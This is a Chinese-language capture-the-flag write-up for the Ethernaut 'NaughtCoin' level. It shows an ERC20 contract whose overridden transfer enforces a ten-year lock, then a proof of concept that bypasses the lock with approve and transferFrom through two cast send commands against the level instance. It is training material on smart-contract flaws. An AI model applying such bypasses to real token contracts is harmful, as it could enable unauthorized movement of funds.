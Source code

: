 #   Level 15 NaughtCoin
實例地址：`0x78E761A7aE384e6072490796b7F5aadDBe02CBf7`

##  題目說明
NaughtCoin 是一種 ERC20 代幣，而且你已經持有這些代幣。問題是你只能在等待 10 年的鎖倉期之後才能轉移它們。你能不能嘗試將它們轉移到另一個地址，讓你可以自由地使用它們嗎？要完成這個關卡的話要讓你的帳戶餘額歸零。

  可能會有用的資訊

*   ERC20 標準
*   OpenZeppelin 程式庫
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

##  POC
這項合約繼承了 ERC20 協議，該合約更改了 `transfer` 導致我們無法使用 `transfer` 直接將代幣轉出，但是我可以透過該協議的 `approve` 和 `transferFrom` 繞過 `lockTokens`，將代幣轉出。


1. `approve` 給其他地址 
```bash
cast send --account=Panda 0x78E761A7aE384e6072490796b7F5aadDBe02CBf7 "approve(address,uint256)" 0x23091d5f37FBeAd4C5109A0cDb2A00989ADA0836 1000000000000000000000000
```

2. 透過其他地址轉出
```bash
cast send --account=TEST 0x78E761A7aE384e6072490796b7F5aadDBe02CBf7 "transferFrom(address,address,uint256)" 0xEBA2Ef27A1B85a4685953E82848e9d2E9ED5b0B6 0x23091d5f37FBeAd4C5109A0cDb2A00989ADA0836 1000000000000000000000000
```